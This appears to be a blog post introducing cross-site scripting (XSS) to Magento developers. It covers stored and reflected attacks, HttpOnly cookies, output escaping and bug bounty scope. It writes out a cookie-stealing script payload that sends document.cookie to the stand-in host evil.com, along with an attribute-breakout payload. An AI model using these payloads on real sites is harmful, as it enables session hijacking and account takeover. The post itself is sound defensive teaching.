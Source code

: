 ```yaml
---
layout: blog-single
title: An Intro To XSS For Magento Developers
description: In this post, I cover the basics of XSS, specifically as they relate to Magento
date: June 15, 2017
image: /img/blog/magento-xss-intro/magento-xss@2x.jpg
tags: [Magento, Security]
ad: domain-clamp-ad-b.html
---
```


XSS is an abbreviation which stands for "Cross Site Scripting". It is a classification of cyber-attack which is currently listed as #3 on [the OWASP top 10](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project). In this post, I'll explain, in detail, what XSS is, and outline what you need to know about it, as a Magento developer

<!-- excerpt_separator -->

### The Idea

The idea behind XSS, is that an attacker executes unauthorized malicious scripts in the context of another user's session. I find the name "cross site scripting" a bit misleading as there is not always a "cross site" involved in the attack. Often the malicious scripting is handled inline, rather than via a `<script>` tag referencing an external site ("cross site"). As such, I prefer the name "script injection". However, this type of attack is universally known as XSS, so that's the name I'll use here.

### An Example

Let me give you an example. When an administrator views the dashboard of the admin panel on both Magento 1 and 2, they'll see a listing of search recent search terms.

<img
  class="rounded shadow"
  src="/img/blog/magento-xss-intro/magento2-dashboard-recent-search-terms@1x.jpg"
  srcset="/img/blog/magento-xss-intro/magento2-dashboard-recent-search-terms@1x.jpg 1x, /img/blog/magento-xss-intro/magento2-dashboard-recent-search-terms@2x.jpg 2x"
  alt="A screenshot showing the recent search terms widget in the Magento 2 admin panel dashboard">

This is just a feed of terms typed into the search bar on a Magento site.

What if, as an attacker I executed the following search...

<img
  class="rounded shadow"
  src="/img/blog/magento-xss-intro/magento-xss@1x.jpg"
  srcset="/img/blog/magento-xss-intro/magento-xss@1x.jpg 1x, /img/blog/magento-xss-intro/magento-xss@2x.jpg 2x"
  alt="Magento XSS">

If Magento did nothing to protect against XSS, this would get stored in the database. Then, the next time an administrator logged into the admin panel my search term would be rendered in this feed. 

Again, if Magento took no action to prevent against XSS \<script>document.write('\<img src="http://evil.com/?cookie=' + document.cookie + '">')\</script> would not be rendered as text, but would actually be executed as JavaScript. This script would add an image to the page that would wind up sending a request to evil.com (presumably a site controlled by the attacker) along with the admininstrator's cookie.

Then, the attacker would be able to access the victim's Magento admin panel without any authentication, simply by supplying the administrator cookie with their request.

### What Can Unauthorized Scripts Do

Cookie theft is the classic example of XSS. However, Magento provides a layer of protection against that via its "Use HTTP Only" cookie setting. I have [an entire blog post devoted to that setting]({{ site.baseurl }}{%  link _posts/2017-03-08-magentos-use-http-only-cookie-setting.md %}), but the tl;dr; is that it sets cookies on the browser using [the `HttpOnly` flag](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies), which prevents them from being accessed by scripts. You should use it.

 Still, there are other bad things that attackers can do via XSS. For example, they could use `window.location` to redirect you to a phishing site that poses as an official Magento site and prompts you enter your administrator user name and password. They could also read the referrer URL which will disclose your admin front name and read your admin user name and form key from the document. 
 
Suffice it to say, XSS is still a concern even with cookies set to `HttpOnly` and is something you want to protect against.

### Different Types Of XSS

There are two different classifications of XSS, stored XSS and reflected XSS. The example I've just described is classified as stored XSS, because the content used to carry out the attack has been stored in the database.

Reflected XSS, on the other hand, is XSS that happens as a result of data in the URL request string. For example, what if an attacker could trick you to click on a link with the malicious payload in the URL.

<img
  class="rounded shadow"
  src="/img/blog/magento-xss-intro/reflected-xss@1x.jpg"
  srcset="/img/blog/magento-xss-intro/reflected-xss@1x.jpg 1x, /img/blog/magento-xss-intro/reflected-xss@2x.jpg 2x"
  alt="Magento Reflected XSS">

Without any protection against XSS this malicious script will be executed, and will send your frontend cookie to evil.com. The attacker could then gain access to your account and place fraudlent orders using your saved credit card.

While reflected XSS is not good, stored XSS is typically considered more severe as the attacker does not need to trick the victim into taking a specific action.

### The Solution

There are two solutions for XSS, input validation and output escaping. For example, Magento could look at the search term, see the `<script>` tag any reject is as invalid.

In this example, however, search queries including the string \<script> **are** considered valid queries by Magento. So the next solution is output escaping.

The idea here is to convert the word `<script>` to `&lt;script&gt` before outputing. Then, when rendered by the browser the user will see the word "\<script>" as a string of text and the script will not be executed. This strategy is employed by Magento to protect against both the stored, and reflected examples described earlier.

Input validation and output escaping are not mutually exclusive. You should be doing both.

### How Do We Do This In Magento

Magento provides documentation on output escaping for Magento 2 [here](http://devdocs.magento.com/guides/v2.0/frontend-dev-guide/templates/template-security.html). When outputting untrusted text, you should use `escapeHtml`. This will use the PHP function `htmlspecialchars` to convert `<` to `&lt;`.

Additionally, when outputting untrusted data in HTML attributes, we need to be careful. For example, the attacker could use the following query to break out of an attribute and execute scripts.

`Shoes" onhover="alert('xss')"`

For HTML attributes you should use `quoteEscape` which will escape both single and double quotes.

### In Scope vs. Out Of Scope XSS

According to [Magento's official bug bounty](https://bugcrowd.com/magento), protecting against XSS by administrators to front end users is out of scope. It is an acknowledged part of the platform that administrators are able to output and have rendered scripts during front end users sessions.

> Cross-Site Scripting (XSS) bugs in the admin interface (URLs containing /admin/) where the code is only executed in front end context but not in admin context are excluded. Merchants are explicitly allowed to use active content when designing their stores, so this is a required feature. The admin XSS capability does not give the administrator any additional powers to do harm beyond what other administrative features already allow

However, administrators should non be able to render and have executed scripts in the context of other administrator users as this could facilitate privilege escalation.

> XSS issues where an administrator with limited access can impact other administration pages are valid.

Additionally, as we've seen in the example of this post, front end users should certainly not be able to execute XSS in the context of admin user sessions.

### Conclusion

I hope this post came in useful for some people. If you have any questions or comments, feel free to drop a note below, or, as always, you can reach me on [Twitter](http://twitter.com/maxpchadwick) as well.
